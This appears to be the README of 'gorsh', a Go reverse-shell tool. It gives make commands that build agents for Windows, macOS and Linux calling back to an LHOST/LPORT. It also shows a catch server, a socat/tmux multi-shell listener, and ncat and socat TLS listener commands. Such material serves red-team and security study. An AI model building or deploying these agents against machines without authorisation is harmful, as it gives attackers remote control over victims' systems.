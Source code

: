 # gorsh

[go]lang [r]everse [sh]ell

[![forthebadge](https://forthebadge.com/images/badges/fuck-it-ship-it.svg)](https://forthebadge.com)
[![forthebadge](https://forthebadge.com/images/badges/made-with-go.svg)](https://forthebadge.com)
[![forthebadge](https://forthebadge.com/images/badges/no-ragrets.svg)](https://forthebadge.com)
[![forthebadge](https://forthebadge.com/images/badges/contains-technical-debt.svg)](https://forthebadge.com)
[![forthebadge](https://forthebadge.com/images/badges/made-with-crayons.svg)](https://forthebadge.com)

![](https://i.imgur.com/x51XH6K.png)
[![asciicast](https://asciinema.org/a/NmeC42TNu8BgdjMLcyVUXo74x.svg)](https://asciinema.org/a/NmeC42TNu8BgdjMLcyVUXo74x)



## Getting started
```bash
git clone git@github.com:audibleblink/gorsh.git
```

Using the zstd build tag and windll make target require cgo.
Make sure you're familiar with cross-compilation and cgo and have the toolchains for it, or read
[here](./docs/TROUBLESHOOTING.md) if you're feeling adventurous.

### Usage

Generate agents with:

```bash
# For the `make` targets, you only need the`LHOST`and`LPORT`environment variables.
$ make {windows,macos,linux} LHOST=example.com LPORT=443
```

#### Catching the shell

This project ships with a server that catches the reverse shell and still provides shell-like
capabilities you lose with traditional reverse shells, including:

* Tab Completion
* Vi-mode readline editing
* History
* Cursor movements

Generate the server with:

```sh
make server
build/srv/gorsh-server --help
```

The gorsh and gorsh-server have a one-to-one relationship, like a traditional shell. For multiple
shells, you need to start multiple servers on different ports. Unless...

To have the ability to receive multiple shells on the same port, there's the `make listen` target.
The `make listen` target kicks off a socat TLS pipe and creates new tmux windows with each new
incoming connection.  Feed it a port number as PORT. 
`socat` is essentially acting as a TLS-terminating reverse proxy. The incoming connections are then
handed off to gorsh-server through randomly generated Unix Domain Sockets.

```sh
make listen PORT=8080

# once a client connects, on a different terminal type:
tmux attach -t GORSH
```

Shells can also be caught without tmux or gorsh-server using:

* socat (not working on macos)
* ncat
* openssl server module
* metasploit multi handler (with a `python/shell_reverse_tcp_ssl` payload)

__Examples__

```bash
$ ncat --ssl --ssl-cert server.pem --ssl-key server.key -lvp 1234
$ socat stdio OPENSSL-LISTEN:443,cert=server.pem,key=server.key,verify=0
```

## Credits

* Initial Work - [@lesnuages](https://github.com/lesnuages)
* [@mzpqnxow](https://github.com/mzpqnxow) for figuring out my x-compilation and dependancy problems and troubleshooting guide
